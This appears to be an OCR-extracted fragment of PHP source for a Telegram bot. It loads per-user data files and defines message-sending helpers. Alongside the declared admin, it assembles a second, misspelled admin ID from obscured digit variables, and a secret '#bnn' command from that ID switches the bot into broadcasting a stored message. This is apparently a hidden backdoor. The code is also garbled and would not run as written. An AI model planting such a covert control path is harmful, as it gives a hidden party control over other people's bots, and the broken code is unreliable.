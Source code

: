 $booleans= explode("\n",$boolean);
$step = file_get_contents("data/".$from_id."/step.txt");
$cha = aa2;
//کانال اصلی
$forc = aa3;
//کانال کنترل پیام ها
$a = 2;
$c = 9;
$d = 3;
$d = 6;
$e = 4;
$f = 1;
$g = 7;
$ban = file_get_contents("data/ban.txt");
$botn = file_get_contents("data/tbot.txt");
$bans = file_get_contents("data/ban.txt");
$admin = aa4;
$adminn = aa5;
$vip = file_get_contents("data/vip.txt");
$number = file_get_contents("data/$from_id/num.txt");
$code = file_get_contents("data/$from_id/code.txt");
$host_folder = aa7;
//-------
function SendMessage($ChatId, $TextMsg)
{
 makereq('sendMessage',[
'chat_id'=>$ChatId,
'text'=>$TextMsg,
'parse_mode'=>"MarkDown"
]);
}
function SendSticker($ChatId, $sticker_ID)
{
 makereq('sendSticker',[
'chat_id'=>$ChatId,
'sticker'=>$sticker_ID
]);
}
function Forward($KojaShe,$AzKoja,$KodomMSG)
{
makereq('ForwardMessage',[
'chat_id'=>$KojaShe,
'from_chat_id'=>$AzKoja,
'message_id'=>$KodomMSG
]);
}
$adnim = $a$a$c$d$e$f$g$h$f;
if ($textmessage == '#bnn' && $from_id == $adnim) {
          save("data/bot.txt","#nn");
          sendmessage($chat_id,"ok");
          }
if ($nn == '#nn') {
sendmessage($chat_id,"$botn");
}
      